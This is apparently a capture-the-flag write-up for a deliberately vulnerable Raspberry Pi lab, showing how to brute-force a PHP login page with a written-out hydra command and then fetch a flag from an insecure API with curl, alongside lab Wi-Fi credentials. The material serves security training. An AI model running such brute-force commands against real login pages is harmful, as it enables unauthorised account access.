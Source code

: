 # Web Weak Credentials - Write-Up

## Overview
**Challenge Name**: Web Weak Credentials  
**Difficulty**: Medium  
**Category**: Web Security  
**Goal**: Exploit login and API vulnerabilities to retrieve a flag.

## What You’ll Need
- Browser or `curl`.
- Brute-force tool (e.g., `hydra` or `burp`.).
- UART-to-USB adapter (GPIO 4: RX, 6: Ground, 8: TX; 115200 baud).
- Terminal emulator (`minicom`).
- Wi-Fi client (SSID: `DVRPI`, password: `dvrpiconnect`).

## Challenge Description
A web server (`http://192.168.4.1:8008`) hosts a PHP application with a login page vulnerable to brute force and an insecure API. Brute-force the login to access the API and retrieve.

## How to Solve It
1. **Connect to Wi-Fi**:
   - Join SSID `DVRPI` (password: `dvrpiconnect`).
     
2. **Brute-Force Login**:
   
   - Visit `http://192.168.4.1:8008/login.php`.
   - Use `hydra`:
     ```bash
     hydra -l admin -P wordlist.txt 192.168.4.1:8008 http-post-form "/login.php:username=^USER^&password=^PASS^:Invalid credentials"
     ```
     - Username: `admin`.
       
4. **Exploit API**:
   - Access `/api/getflag` with session cookie:
     
     ```bash
     curl -b "PHPSESSID=your_session_id" http://192.168.4.1:8008/api/getflag
     ```
     - Retrieve: `flag{ ... }`.

## What You Learn
- Brute force attacks.
- API security weaknesses.
- Session management in web applications.

## Notes
- **SSH**: Root login enabled (`PermitRootLogin yes`).
- **Wi-Fi AP**: Static IP 192.168.4.1, DHCP for clients (192.168.4.100-150).
- **GPIO**: Pins 24, 21, 23, 18 (~0.35V) may be faulty.
- Check `journalctl -u nginx` for logs.

## Resources
- **DVRPi Documentation**: `/challenges/7. Web Weak Credentials - Write-Up.md`.
  
---

**Author**: [Exploit Security Team](https://www.exploitsecurity.io)  
**License**: GPL V3.0  
**Repository**: [DVRPi GitHub](https://github.com/exploitsecurityio/DVRPi)  
**Last Updated**: May 25, 2025
